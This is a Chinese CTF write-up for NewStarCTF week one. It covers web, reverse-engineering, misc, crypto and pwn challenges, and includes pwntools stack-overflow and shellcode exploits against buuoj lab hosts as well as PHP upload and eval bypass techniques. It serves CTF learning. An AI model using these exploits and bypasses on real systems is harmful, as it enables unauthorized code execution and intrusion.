



## BuuNewStar

> 第一周题目，包含：Web、CRYPTO、MISC、RESERVE所有题目，PWN前两道

### Web

#### 1、泄漏的秘密

> 考点：目录扫描

页面提示：管理员泄露了敏感信息

可知有敏感文件泄露，可以直接扫目录。得到www.zip。即整个网站的源码


#### 2、Begin of Upload

> 考点：文件上传

很简单的文件上传，只是前端限制了上传后缀。

将php后缀改为png然后BP抓包在改回来即可


#### 3、Begin of HTTP

> 考点：HTTP协议请求头的含义

第一步：GET请求，使用"?"号进行GET传参

第二步：POST请求，使用HacKBar或者BP进行请求。需要注意BP的GET请求改POST，可以右键选择改变，或者直接改请求头，并且要加上内容长度字段content-length。这里POST传的参数需要直接查看网页代码来找到，可以Ctrl+u，或者F12

第三步：修改Cookie

第四步：User-Agent 。UA用来标识你的浏览器

第五步：Referer	用来表明你从哪里访问到本页面

第六步：本地用户访问，即127.0.0.1.但是要知道，可不止有XFF可以代表你是本地访问哦，还有很多其他的。这里我使用的是"X-Real-IP"。~~什么？我怎么知道用的这个？当然是一个一个试出来的~~

#### 4、ErrorFlask

> 考点：我也不知道。奇奇怪怪，不是ssti，不是计算PIN，就让它报个错就有.....可能这就是第一周吧

由于是flask的模板，并且开启了debug模式，报错之后就可以看到报错信息，顺便展示了一点点源码。在这就可以看到flag



#### Begin of PHP

第一步：md5的弱比较，

两种方法，一是数组绕过，对数组取MD5会报错，由此可以绕过。

另一种是因为弱比较，对于一个字符串取md5后，只要是0e开头的，都会被当作科学计数法来进行比较

最后一种，适用于强比较，弱比较也可以，就是两个md5相等的字符串。在网上是有的，可以直接找到

第二步：原理和上相同，只不过是强比较了，就不可以用弱比较，直接数组绕过就行

第三步：strcmp对于比较数组时会返回NULL，而NULL==0

第四步：判断数字，并且和2023比大小，依旧是数组绕过。

第五步：变量覆盖：看到没有给flag5赋值的地方，但是可以接受传入的参数，直接传入flag5即可


#### R!C!E!

第一步：传入password,这里要求md5的前6位等于c4d038,那就写个脚本爆破就行。在5位内的字符串中爆破到一个aUDog

第二步：有一个关于php的POST传参的知识，就是在正常传参中参数名不能是"."的，而题目要求传入，那么就只能另想办法。在php中，当参数名中有"["时，[会被转义为_，而后面的"."则不再限制。

题目正好最前面要求有_，因此可以传入e[v.a.l=，这样就可以正常传参了。后面的过滤就没什么了，没过滤多少，很容易绕过。


#### EasyLogin

进入要求登录，根据注册，可以知道admin账户是存在的，普通账户进去没什么东西，那么就要admin账户了，因此需要爆破admin的密码。BP抓包可以看到密码被md5加密过，那么就要用到bp的编码器,通过编码器，进行编码然后爆破，得到密码000000


然后在HTTP的历史记录里可以看到flag。不用跑登录的终端里面，就是个坑

## **<u>Web部分完咯，接下来是逆向</u>**

### Reserve

#### 1、easy_RE

> 考点：有IDA

打开就可以看到flag前一部分，然后shift+F12，可以看到后半部分

#### 2、咳

> 考点：UPX脱壳

Detect It Easy打开文件，可以看到有UPX壳。那就要脱壳，可以工具脱，想学习逆向的可以手脱。*我FW，并且不玩逆向，就使用前人的工具了*

[Releases · upx/upx (github.com)](https://github.com/upx/upx/releases)

使用命令：upx.exe -d [FILE]

然后在看，发现已经没有upx壳了

然后IDA打开，找到主函数，看到加密过程。然后写脚本进行解密


```python
str='gmbh|D1ohsbuv2bu21ot1oQb332ohUifG2stuQ[HBMBYZ2fwf2~'
for i in str:
  print(chr(ord(i)-1),end='')
```

#### 3、Segments

题目提示：Segments窗口，因此shift+f7打开，打开后就可以看到了

#### 4、ELF

> ELF是linux的可执行文件

依旧使用IDA打开，直接找到主函数，然后发现加密方式，完成解密函数就ok



```python
import base64
ciphey='VlxRV2t0II8kX2WPJ15fZ49nWFEnj3V8do8hYy9t'
enc=base64.b64decode(ciphey)

flag=''
for i in enc:
    flag+=chr((ord(chr(i))-16)^0x20)
print(flag)

```

#### 5、Endian


```c++
#include<iostream>
using namespace std;
int main(){
	unsigned char enc[] =
{
  0x1E, 0x3A, 0x55, 0x75, 0x03, 0x3A, 0x58, 0x7B, 0x0C, 0x22, 
  0x58, 0x4D, 0x3D, 0x38, 0x50, 0x7B, 0x19, 0x38, 0x6B, 0x73, 
  0x00, 0x00, 0x00, 0x00
};
unsigned char key[] =
{
 0x78, 0x56, 0x34, 0x12
};

 for ( int i = 0; i <= 24; ++i )
  {
    enc[i]=enc[i] ^ key[i%4];

  }
  cout<<enc;
} 
```

> 由于题目结束，不好在验证flag具体内容，只有最后几位会不确定

#### 6、AndroXor

> 安卓逆向

把APK改为zip，里面的.dex文件是主代码文件，使用dex2jar将他转为jar文件，然后可以用jd-gui打开，看到源码

> 使用命令：.\d2j-dex2jar.bat -d .\classes.dex


```python
str=['\016','\r', '\021', '\027', '\002','K','I', '7', ' ','\036', '\024', 'I','\n', '\002','\f','>',
     '(', '@', '\013','\'','K','Y', '\031','A', '\r']
key='happyx3'
flag=''
for i in range(len(str)):
    flag+=chr(ord(str[i])^ord(key[i%len(key)]))
print(flag)
```

#### 7、EzPE

> PE头修复

找个exe文件，用010打开，使用模板识别PE头，然后将题目的PE头改成复制的正常的头，即可修复



接下来IDA打开，就正常流程

```python
enc=[0x0A,0x0C,0x04,0x1F,0x26,0x6C,0x43,0x2D,0x3C,0x0C,0x54,0x4C,0x24,0x25,0x11,0x06,
0x05,0x3A,0x7C,0x51,0x38,0x1A,0x03,0x0D,0x01,0x36,0x1F,0x12,0x26,0x04,0x68,0x5D,
0x3F,0x2D,0x37,0x2A,0x7D]
flag=[]
for i in range(len(enc)-2,0,-1):
    enc[i] = int(enc[i]) ^ int(i) ^ int(enc[i + 1])
    dec = chr(enc[i])
    flag.append(dec)
print( "f"+"".join(flag[::-1])+"}")
```

#####  8、lazy_activtiy

APK逆向，得到源文件，但是发现主代码里没有flag信息，因此使用安卓模拟器打开apk，看看有什么细节。在打开后看到一段文字，是在主函数里没有的。这里改用APKIDE，在这里搜索文件中的内容。找到文字位置，在搜索flag{，发现flag

> 显然跑偏了，预期解应该不是这个。但谁让我是Web手而不是逆向手呢，搞flag要紧。


## **<u>逆向部分完咯，接下来是Misc</u>**

### Misc

Misc简单写了,能一句话ok的就一句话ok了,太多WP要写了

#### CyberChef

[Release v10.5.2 · gchq/CyberChef (github.com)](https://github.com/gchq/CyberChef/releases/tag/v10.5.2)

这是个离不开的工具，用它直接解

#### 机密图片

Stegsolve打开，在三个0通道发现问题。Data Extract提取通道。发现flag

#### 流量！鲨鱼！

简单的看流量的题，看了后知道是传了个webshell，然后执行命令，过滤http响应包以及状态码是200的包，在这里找flag，发现编码后的flag，扔ctberchef里就出来了

> http and http.response.code==200

#### 压缩包们

没有后缀的压缩包，加上后缀，发现没有zip头，加上zip头，然后打开，打开flag.zip发现备注里有一串编码，解码后是告诉密码格式。然后爆破压缩包密码就ok

#### 空白格

打开是一个全是空格的文档，这种空格加密的只有几种，尝试出whitespace隐写

在线网站解密[Whitelips the Esoteric Language IDE (vii5ard.github.io)](https://vii5ard.github.io/whitespace/)

#### 隐秘的眼睛

一眼就想到Silenteye，直接工具解密


## **<u>MISC部分完咯，接下来是Crypto</u>**


## Crypto

#### Small d

维纳攻击，e太大或太小，都可能产生。这里代码里的d其实是e，e是d，只是命名问题

网上脚本很多，就不列了

#### babyxor

简单的爆破一下key就可以了

```python
enc='e9e3eee8f4f7bffdd0bebad0fcf6e2e2bcfbfdf6d0eee1ebd0eabbf5f6aeaeaeaeaeaef2'
enc=bytes.fromhex(enc)
flag= ''
#爆破key
for i in range(0,256):
    flag=[]
    for j in range(0,len(enc)):
        flag+=chr(enc[j]^i)
    flag="".join(flag)
    if 'flag' in flag:
        print(flag)
```

#### babyencoding

前两部分不用说，扔cyberchef里就出来了，最后一个是uuEncode

#### Vigenère

这里要知道，vigenere的密钥可以爆破出来的。考的就是密钥的爆破，因为知道明文的前几个字符，所以可以通过挨个字符爆破，得到得到明文的前几个字符，在已知的字符比密钥长时，得到的密钥就是完整的密钥

#### babyaes

解密 flag 我们需要获取到 key 和 iv 的值，由条件：
key=os.urandom(2)*16
iv=os.urandom(16)
可知：key是32bytes,256bits ；iv是16bytes ,128bits

key^iv ，那么只有 iv 与 key的低128位相异或，所以key的高128位是固定不变的。所以输出结果的高128bits,就是key的高128bits,进而可以得到key的所有值256bits。

之后key的低128bits，与输出结果的低128bits 相异或，所得结果就是 iv的值了key,iv得到后直接aes.decrypt()解密就ok了

```python
from Crypto.Cipher import AES
from Crypto.Util.number import *

xor=3657491768215750635844958060963805125333761387746954618540958489914964573229
enc= b'>]\xc1\xe5\x82/\x02\x7ft\xf1B\x8d\n\xc1\x95i'
xor=long_to_bytes(xor)
key = xor[:16]*2
iv = bytes_to_long(key[16:])^bytes_to_long(xor[16:])
iv = long_to_bytes(iv)
aes = AES.new(key, AES.MODE_CBC, iv)
flag = aes.decrypt(enc)
print(flag)
```

> Crypto就到这了，其他几个加密方式很明确，都很常见，懒得写了

## **<u>Crypto部分完咯，接下来是Pwn</u>**

> Pwn我是真的不会，做的两个都很简单，网上现看的

## Pwn

> Pwn的具体原理不讲，因为我也不会。真的不会Pwn，求个Pwn爷带

#### 1、ret2text

pwntools都应该有的吧，虽然不会，但是工具不能少。~~差生文具多~~

第一个栈溢出，IDA打开后看到有直接的后门函数，看到输入的数量使栈溢出时，再用后面输入的覆盖掉原有的函数跳转，即可rce

```python
from pwn import *
p = remote('node4.buuoj.cn',25658)
pload = ("aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa").encode()  + p64(0x04011FB)

print(pload)
p.sendline(pload)
p.interactive()
```

#### 2、ezshellcode

溢出和之前一样，就是这次没有后门函数了，而且不需要判断多少字符会造成溢出，但是需要自己写shell，网上很多，抄一个就ok了

```python
# -*- coding: utf-8 -*-
from pwn import *
context(os='linux',arch='i386',log_level='debug')
#载入程序
pwn = remote('node4.buuoj.cn',25318)

#生成shellcode。并转换为机器码
shell = b'\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05'
payload = shell
pwn.sendline(payload)
pwn.interactive()

```

